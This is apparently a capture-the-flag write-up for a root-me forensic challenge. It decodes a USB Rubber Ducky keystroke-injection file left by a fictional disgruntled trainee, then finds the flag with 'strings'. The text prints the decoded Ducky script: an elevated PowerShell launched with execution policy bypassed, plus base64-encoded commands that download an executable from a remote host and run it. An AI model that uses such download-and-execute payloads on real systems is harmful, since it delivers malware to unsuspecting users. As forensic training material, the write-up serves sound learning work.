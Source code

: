 # Ugly duckling

[root-me challenge](https://www.root-me.org/en/Challenges/Forensic/Ugly-Duckling): The CEO’s computer seems to have been compromised internally. A young trainee dissatisfied with not having been paid during his internship arouse our supsicion. A strange USB stick containing a binary file was found on the trainee’s desk. The CEO relies on you to analyse this file.

----

Rubber duck. Decode `file.bin` using the [decoder of ducktoolkit](https://ducktoolkit.com/decode):

![Ducktools](/_static/images/duck.png)

```text
DELAY
iexplore http://challenge01.root-me.org/forensic/ch14/files/796f75277665206265656e2054524f4c4c4544.jpgENTER
DELAY
...
DELAY
%USERPROFILE%\Documents\796f75277665206265656e2054524f4c4c4544.jpgDELAY
ENTER
...
DELAY
powershell Start-Process powershell -Verb runAsDELAY
PowerShell -Exec ByPass -Nol -Enc aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbABvAGEAZABGAGkAbABlACgAJwBoAHQAdABwADoALwAvAGMAaABhAGwAbABlAG4AZwBlADAAMQAuAHIAbwBvAHQALQBtAGUALgBvAHIAZwAvAGYAbwByAGUAbgBzAGkAYwAvAGMAaAAxADQALwBmAGkAbABlAHMALwA2ADYANgBjADYAMQA2ADcANgA3ADYANQA2ADQAMwBmAC4AZQB4AGUAJwAsACcANgA2ADYAYwA2ADEANgA3ADYANwA2ADUANgA0ADMAZgAuAGUAeABlACcAKQA7AApowershell -Exec ByPass -Nol -Enc aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAGMAbwBtACAAcwBoAGUAbABsAC4AYQBwAHAAbABpAGMAYQB0AGkAbwBuACkALgBzAGgAZQBsAGwAZQB4AGUAYwB1AHQAZQAoACcANgA2ADYAYwA2ADEANgA3ADYANwA2ADUANgA0ADMAZgAuAGUAeABlACcAKQA7AAoAexit
```

b64 decode:

```text
iex (New-Object System.Net.WebClient).DownloadFile('http://challenge01.root-me.org/forensic/ch14/files/666c61676765643f.exe','666c61676765643f.exe');
iex (New-Object -com shell.application).shellexecute('666c61676765643f.exe');
```

Download that `666c61676765643f.exe` and use `strings` to grep the flag.

